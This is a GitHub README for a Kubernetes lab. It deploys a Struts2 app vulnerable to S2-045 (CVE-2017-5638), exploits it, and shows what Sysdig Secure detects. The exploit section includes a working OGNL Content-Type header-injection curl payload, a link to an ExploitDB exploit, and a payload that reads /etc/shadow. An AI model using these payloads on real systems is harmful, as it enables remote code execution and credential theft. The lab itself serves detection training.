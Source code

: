 # Vulnerable Struts2 (S2-045) Lab 🧪 🔬 

In this lab, you will deploy a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application 🤖 

-  Your environment can be deployed using the `setup_struts_deployment.sh` file and a pre-configured cluster hosting the Sysdig Detection Agent.  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://localhost:30080` in a browser or use curl:
 
   `curl -v http://localhost:30080`

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit 🦠 

- **Trigger the RCE** by issuing and analyzing the output of: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExploitDB's python exploit @ `https://www.exploit-db.com/exploits/41570`
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection** 🔍 

A clear distinction must be made between the curl payload that stays within Java’s memory (e.g., returning 1337 in a custom header) and one that spawns a system-level process (e.g., cat /etc/shadow).

### Header Injection 
The payload executes in Struts memory, returning **1337** via the vulhub **header**.
No new process, no file access, and no unusual network connections occur.
Sysdig (or any runtime analysis) does not flag this as malicious because it sees no suspicious system calls.


### Python Script (Spawning a Process)
The payload calls `cat /etc/shadow`, causing Java to execute a new child process.
Sysdig sees `/bin/cat /etc/shadow` and raises a **Medium** severity alert because it recognizes unexpected process execution attemtpting to access a sensitive file.

<img width="1677" alt="Screenshot 2025-01-09 at 7 24 36 PM" src="https://github.com/user-attachments/assets/e2df8848-8eea-4f1a-a86b-f2d4ad751220" />
*Edited After Submission for better PoC

### Verify in Sysdig Secure:
Go to **Threats → Sysdig Runtime Notable Events**.
Find the corresponding Event ID (e.g., 18191e49f34866df273474732a500c25).
In summary, a simple header injection won’t trigger Sysdig, but any payload that spawns a process or accesses sensitive resources will. This showcases early detection and the need for refined rulesets within your tools!






